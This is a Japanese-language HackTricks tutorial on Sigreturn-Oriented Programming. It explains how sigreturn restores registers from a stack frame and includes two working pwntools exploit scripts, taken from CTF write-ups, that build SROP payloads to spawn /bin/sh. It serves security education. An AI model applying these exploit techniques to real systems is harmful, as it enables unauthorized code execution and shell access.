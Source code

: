 # SROP - Sigreturn-Oriented Programming

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
- **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>

## 基本情報

**`Sigreturn`** は、主にシグナルハンドラが実行を完了した後にクリーンアップするために使用される特別な **シスコール** です。シグナルは、オペレーティングシステムによってプログラムに送信される割り込みであり、通常は何らかの例外的な状況が発生したことを示すために送信されます。プログラムがシグナルを受信すると、現在の作業を一時停止して **シグナルハンドラ** と呼ばれる、シグナルを処理するために設計された特別な関数でシグナルを処理します。

シグナルハンドラが完了した後、プログラムは何も起こらなかったかのように **以前の状態に戻る必要があります。** ここで **`sigreturn`** が重要な役割を果たします。これにより、プログラムは **シグナルハンドラから戻り**、シグナルハンドラによって使用されたスタックフレーム（関数呼び出しとローカル変数を格納するメモリセクション）をクリーンアップしてプログラムの状態を復元できます。

興味深いのは、**`sigreturn`** がプログラムの状態を復元する方法です。これは、**CPUのすべてのレジスタ値をスタックに保存することで行います。** シグナルがブロックされなくなると、**`sigreturn` はこれらの値をスタックからポップ**して、効果的にCPUのレジスタをシグナルが処理される前の状態にリセットします。これには、スタックポインタレジスタ（RSP）も含まれます。これは現在のスタックのトップを指すレジスタです。

{% hint style="danger" %}
ROPチェーンから **`sigreturn`** を呼び出し、**スタックにロードしたいレジストリ値を追加**することで、すべてのレジスタ値を **制御** し、したがって例えば `/bin/sh` を指定して `execve` シスコールを呼び出すことが可能です。
{% endhint %}

これは、他の Ret2syscall を呼び出すためのパラメータを簡単に制御できる **Ret2syscall の一種** であることに注意してください：

{% content-ref url="rop-syscall-execv/" %}
[rop-syscall-execv](rop-syscall-execv/)
{% endcontent-ref %}

興味がある場合は、後で値を回復するためにスタックに保存される **sigcontext 構造** がどのように見えるかを確認できます（[**こちら**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)の図）。
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
より詳しい説明はこちらをチェックしてください:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## 例

[**こちらの例**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)で、signeturnへの呼び出しがROPを介して構築されています（rxaに値`0xf`を入れる）。ただし、これはそこからの最終的なエクスプロイトです:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
以下の[**こちらのエクスプロイト**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)もチェックしてください。バイナリが既に`sigreturn`を呼び出しているため、**ROP**を構築する必要はありません。
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## その他の例と参考文献

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* **スタックに書き込み**を許可するアセンブリバイナリで、**`sigreturn`** シスコールを呼び出します。 **sigreturn** 構造を介してスタックに [**ret2syscall**](rop-syscall-execv/) を書き込み、バイナリのメモリ内にあるフラグを読み取ることが可能です。
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* **スタックに書き込み**を許可するアセンブリバイナリで、**`sigreturn`** シスコールを呼び出します。 **sigreturn** 構造を介してスタックに [**ret2syscall**](rop-syscall-execv/) を書き込むことが可能です（バイナリには文字列 `/bin/sh` が含まれています）。
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64ビット、relro なし、canary なし、nx、pie なし。 `gets` 関数を悪用したシンプルなバッファオーバーフローで、[**ret2syscall**](rop-syscall-execv/) を実行します。ROPチェーンは、再度getsを呼び出して`.bss`に `/bin/sh` を書き込み、`alarm` 関数を悪用してeaxを `0xf` に設定して **SROP** を呼び出し、シェルを実行します。
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64ビットアセンブリプログラム、relro なし、canary なし、nx、pie なし。 フローはスタックに書き込み、複数のレジスタを制御し、シスコールを呼び出してから `exit` を呼び出すことを可能にします。 選択されたシスコールは `sigreturn` で、レジスタを設定し、`eip` を以前のシスコール命令を呼び出して `memprotect` を実行してバイナリスペースを `rwx` に設定し、ESP をバイナリスペースに設定します。 プログラムは再度ESPを読み取るためにreadを呼び出しますが、この場合ESPは次の命令を指すようになるため、シェルコードを渡すと次の命令として書き込まれ、実行されます。
